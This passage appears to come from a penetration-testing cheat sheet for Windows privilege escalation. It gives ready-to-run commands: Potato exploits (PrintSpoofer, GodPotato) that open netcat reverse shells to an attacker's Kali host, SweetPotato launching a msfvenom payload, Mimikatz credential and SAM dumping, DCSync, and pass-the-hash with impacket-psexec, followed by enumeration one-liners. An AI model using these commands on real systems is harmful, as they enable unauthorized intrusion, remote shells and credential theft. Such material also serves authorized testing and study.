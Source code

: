 -`i686-w64-mingw32-gcc adduser.c -o adduser.exe` 


### Potato Family
When you have SeImpersonatePrivilege
- PrintSpoofer: `.\PrintSpoofer.exe -c "nc.exe $kaliIP $port -e cmd"`
- GodPotato:  `.\GodPotato -cmd “nc -t -e C:\Windows\System32\cmd.exe $kaliIP $port`
- Sweet Potato (where r.exe = msfvenom shell):`.\SweetPotato.exe -e efsrpc '/temp/r.exe'` 


### Mimikatz (local)
One liner: `.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::msv" "lsadump::sam" "exit"`
 1. privilege::debug
 2. token::elevate
 3. lsadump::sam
 4. sekurlsa::logonpasswords
 5. lsadump::dcsync /user:\<domain>\\\<user> (to obtain NTLM hash)
	 - Then from kali: `impacket-secretsdump -just-dc-user $user $domain.com /$user:"$password"@$targetIP`
	 - From kali: `impacket-psexec -hashes 00000000000000000000000000000000:\<NTLM hash> Administrator@\$targetIP`
 - From a GUI must be run as admin, (or in a cmd that is running as admin).  UAC stops it otherwise.


#### Misc Windows Privesc 
Running Processes Powershell
- `Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`
	- NOTE:  You cannot see higher priv processes in windows

Search for unquoted service paths:
- `wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`

show firewall profile:
- `netsh advfirewall show currentprofile`
- `netsh advfirewall firewall show rule name=all`

Enumerate Installed Programs
- `wmic product get name, version, vendor`

Enumerate Windows Updates
- `wmic qfe get Caption, Description, HotFixID, InstalledOn`

Check for folders/files Everyone can write to:
- `Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`

List drivers:
- (cmd)`driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
- (powershell) `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}`

